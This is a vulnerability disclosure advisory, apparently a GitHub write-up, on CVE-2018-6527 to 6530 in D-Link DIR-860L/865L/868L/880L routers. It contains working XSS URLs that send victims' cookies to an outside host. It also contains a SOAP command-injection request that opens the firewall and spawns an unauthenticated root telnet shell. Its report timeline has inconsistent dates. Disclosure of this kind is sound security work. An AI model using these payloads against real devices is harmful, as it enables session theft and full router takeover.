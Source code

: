 ## 0x00 Product Description
Dlink is a multinational networking equipment manufacturing corporation.

The Dlink 860L/865L/868L/880L are wireless "Cloud" Router.

The vulnerabilities details are as follows:

Vendor: D-Link

Devices: DIR-880 REVA / DIR-868 REVA / DIR-865 / DIR-860 REVA

Firmware:

DIR-880L_REVA_FIRMWARE_PATCH_1.08B04

DIR868LA1_FW112b04

DIR-865L_REVA_FIRMWARE_PATCH_1.08.B01

DIR860LA1_FW110b04

## 0x01 Vulnerabilities Summary
The Dlink 860L/865L/868L/880L is a router overall badly designed with a lot of vulnerabilities.

My research in analyzing the security of Dlink routers starts from a recent security contest organized by a security company.

## 0x02 The summary of the vulnerabilities is:
1. WAN && LAN - revA/B - XSS - CVE-2018-6527, CVE-2018-6528, CVE-2018-6529
2. LAN - revA/B - OS command injection - CVE-2018-6530

## 0x03 Details - WAN && LAN - revA/B - XSS

After analyzing PHP files inside /htdocs/webinc, I found several trivial XSS vulnerabilities.

An attacker can use the XSS to target an authenticated user in order to steal the authentication cookies.

1. xss inside /htdocs/webinc/body/bsc_sms_send.php
```php
[…]
                <span class="value">
                        <input id="receiver" type="text" size="50" maxlength="15" value="<? echo $_GET["receiver"]; ?>"/>
                </span>
[…]
```
An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/bsc_sms_send.php?receiver="><script>window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie)</script><"

2. xss inside /htdocs/ webinc/js/adv_parent_ctrl_map.php
```php
[…]
                var msgArray =
                [
                        '<?echo i18n("You have successfully configured your router to use OpenDNS Parental Control.");?>',
                        '<?echo i18n("Do you want to test the function?");?>',
                        '<p><input type="button" value="<?echo i18n('Test');?>" onclick="window.open(\'http://www.opendns.com/device/welcome/?device_id=<? echo $_GET["deviceid"];?>\')" /><input type="button" value="<?echo i18n('Return');?>" onClick="self.location.href=\'adv_parent_ctrl.php\';" /></p>'
                ];
                BODY.ShowMessage('<?echo i18n("OpenDNS PARENTAL CONTROLS");?>', msgArray);
[…]
```

An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/adv_parent_ctrl_map.php?deviceid=whatever\');window.open(\'http://9.9.9.9:9999/cookie.asp?msg=\'+document.cookie

3. xss inside /htdocs/ webinc/js/bsc_sms_inbox.php
```php
[…]
        InitValue: function(xml)
        {
                var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';		
         … 
        }
[…]
```
An attacker could lure the victim to inadvertently open this vulnerable page as an authenticated user:
http://192.168.0.1/bsc_sms_inbox.php?Treturn=0';window.open('http://9.9.9.9:9999/cookie.asp?msg='+document.cookie);get_Treturn='1

## 0x04 Details - LAN - revA/B - Command injection in SOAP controlType url interface

The vulnerability occurs in /htdocs/cgibin which is executed by the web server for, just handles almost http requests from WAN and LAN, and my research in analyzing SOAP interface started from a security analysis report regarding UPNP protocol, then I reviewed the SOAP interface, which is handled by the soapcgi_main function in cgibin, seems to have been mostly overlooked.

It should be noted that you could insert and execute malicious commands without privilege, meanwhile the injection point is the service field which is passed to soap.cgi to indicate control type, this exploitation also works even if invalid SOAPAction and whatever XML stream in a request.

Here’s the code in C to show some details about this issue:
```c
/* Grab a pointer to the request url */
requri = getenv("REQUEST_URI");
/* goto failure if the urquri does not start with "?service=" */
if((query = strchr(requri, "?")) == NULL or strncmp(query, "?service=", strlen("?service=")))
{
    goto failure_condition;
}
/* Point the control type field pointer 9 bytes beyond the requri */ 
controlType = query + strlen("?service=");

... ...

/* Create/open a shell script using the specified control type string */
sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
fn = fopen(filename "a+");
/* Write self-deleting command into the srcipt and execute it by "sh -c"*/
if(fn)
{
    fprintf(fn, "rm -f %s/%s_%d.sh", "/var/run", controlType, getpid());
    fclose(fn);
    sprintf(filename, "%s/%s_%d.sh", "/var/run", controlType, getpid());
    system(filename);
}
```
Proof of concept:
```
POST /soap.cgi?service=whatever-control;iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -t nat -P PREROUTING ACCEPT;iptables -t nat -P OUTPUT ACCEPT;iptables -t nat -P POSTROUTING ACCEPT;telnetd -p 9999;whatever-invalid-shell HTTP/1.1
Host: 192.168.100.1:49152
Accept-Encoding: identity
Content-Length: 16
SOAPAction: "whatever-serviceType#whatever-action"
Content-Type: text/xml

whatever-content

Here, we can easily build a soap http request and embed malicious command that spawns a telnet server on WAN that provides an unauthenticated root shell into it, and then login into router using telnet:
$ telnet 9.9.9.9 9999
Trying 9.9.9.9...
Connected to 192.168.0.1.
Escape character is '^]'.
```
## 0x05 Report Timeline

Dec 8, 2017: Vulnerabilities found.
Jul 18, 2018: Reported to security@dlink.com.
Jul 18, 2018: The vendor followed up and made a schedule to fix it.
Feb 1, 2018: Reported those security issues to MITRE.
Feb 1, 2018: MITRE provides CVE-2018-6527, CVE-2018-6528, CVE-2018-6529, CVE-2018-6530.
Mar 1, 2018: The vendor release security announcement for customers.  
Mar 2, 2018: I decide to make a public disclosure.

## 0x06 Credits

These vulnerabilities were found by Kaixiang Zhang.

## 0x07 References

[](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-880L/REVA/DIR-880L_REVA_FIRMWARE_PATCH_NOTES_1.08B06_EN_WW.pdf)
[](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-865L/REVA/DIR-865L_REVA_FIRMWARE_PATCH_NOTES_1.10B01_EN_WW.pdf)
[](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-868L/REVA/DIR-868L_REVA_FIRMWARE_PATCH_NOTES_1.20B01_EN_WW.pdf)
[](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-860L/REVA/DIR-860L_REVA_FIRMWARE_PATCH_NOTES_1.11B01_EN_WW.pdf)
